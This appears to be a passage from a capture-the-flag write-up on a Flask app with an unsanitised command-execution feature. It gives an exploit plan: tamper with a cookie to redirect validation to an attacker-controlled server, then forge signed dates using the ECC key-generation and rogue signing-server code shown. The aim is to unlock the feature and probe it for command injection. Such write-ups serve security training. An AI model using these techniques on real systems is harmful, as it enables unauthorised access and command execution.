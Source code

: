 ```python
        return render_template('feature.html')
    except Exception as e:
        print(f"Error: {e}")
        return redirect(url_for('index'))
```
{% endcode %}

It's a simple word-counting feature that takes user input and passes it directly to a command without sanitisation.

### Exploit

Based on our initial review of the application, we can outline the following plan of action:

-   Set `debug=true`, so the server will attempt to read the `validation_server` from the `preferences` cookie.
-   Base64 decode the `preferences` cookie, add `validation_server: https://ATTACKER_SERVER`, and re-encode.
-   Generate a public/private keypair on the attacker server.
-   Configure the attacker server to sign an arbitrary date with the private key and return the corresponding public key when the `/pubkey` endpoint is requested.
-   Once granted access to the new feature, probe for command injection vulnerabilities.

#### Forging a signature

Let's start by configuring the attacker server. We can generate a keypair with the following script.

{% code overflow="wrap" %}
```python
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM').encode('utf-8'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM').encode('utf-8'))
```
{% endcode %}

We configure `server.py` to do the same thing as the real `validation_server`, _except_ that the returned date will be 7+ days in the future.

{% code overflow="wrap" %}
```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

key = load_private_key()

def generate_date_and_sign(date):
    h = SHA256.new(date.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return date, signature.hex()
```